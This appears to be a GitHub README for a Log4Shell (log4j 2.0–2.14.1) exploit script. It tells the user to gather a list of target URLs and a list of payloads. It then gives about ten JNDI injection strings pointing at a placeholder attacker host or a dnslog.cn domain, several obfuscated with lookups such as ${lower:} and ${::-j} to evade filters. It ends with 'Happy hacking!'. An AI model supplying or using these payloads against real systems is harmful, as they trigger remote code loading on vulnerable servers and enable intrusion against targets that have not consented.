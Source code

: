# log4j
A simple script to exploit the log4j vulnerability

#Before Using the script:
1. Only versions between 2.0 - 2.14.1 are affected by the exploit
2. Create two txt files - one containing a list of URLs to test and the other containing the list of payloads.
3. Payload examples:

${jndi:ldap://[malicious ip address]/a} \
${jndi:ldap://n9iawh.dnslog.cn/} \
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//[malicious ip address]/a} \
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://[malicious ip address]/as} \
${${::-j}ndi:rmi://[malicious ip address]/a} \
${${lower:jndi}:${lower:rmi}://[malicious ip address]/poc} \
${jndi:rmi://[malicious ip address]} \
${${lower:${lower:jndi}}:${lower:rmi}://[malicious ip address]} \
${jndi:${lower:l}${lower:d}ap://[malicious ip address]/a} \
${jndi:${lower:l}${lower:d}ap://[malicious ip address]/} \

Happy hacking!
